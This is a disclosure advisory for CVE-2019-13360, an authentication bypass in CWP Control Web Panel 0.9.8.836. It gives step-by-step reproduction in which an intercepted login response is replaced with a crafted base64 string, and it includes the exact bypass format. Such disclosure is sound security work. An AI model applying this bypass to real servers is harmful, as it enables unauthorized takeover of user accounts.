






# Information
```
Product             : CWP Control Web Panel
Vulnerability Name  : User panel bypass Login
version             : 0.9.8.836
Fixed on            : 0.9.8.838
Test on             : CentOS 7.6.1810 (Core)
Reference           : http://centos-webpanel.com/
                    : https://control-webpanel.com/changelog
CVE-Number          : CVE-2019-13360
```

<br>

# Description

By leveraging knowledge of a valid username, remoted attackers can bypass login process and become the target user

<br>

# Reproduce

1. Login as valid username and invalid password

<kbd></kbd>

<br>

2. Intercept the request

<kbd></kbd>

<br>

3. Release the request and intercept the response

<kbd></kbd>

<br>

4. Prepare bypassing string

```
Bypassing format : <username>||/<username>/theme/original
Bypassing string : user1||/user1/theme/original<br>
Base64 encoding  : dXNlcjF8fC91c2VyMS90aGVtZS9vcmlnaW5hbA==
```

<kbd></kbd>

<br>

5. Replace the result to the response body

<kbd></kbd>

<br>

6. Become the target user

<kbd></kbd>

<br><br>


# Timeline
```
2019-06-29: Discovered the bug
2019-06-29: Reported to vendor
2019-06-29: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-15: Advisory published
```

<br>

# Discovered by
```
Pongtorn Angsuchotmetee
```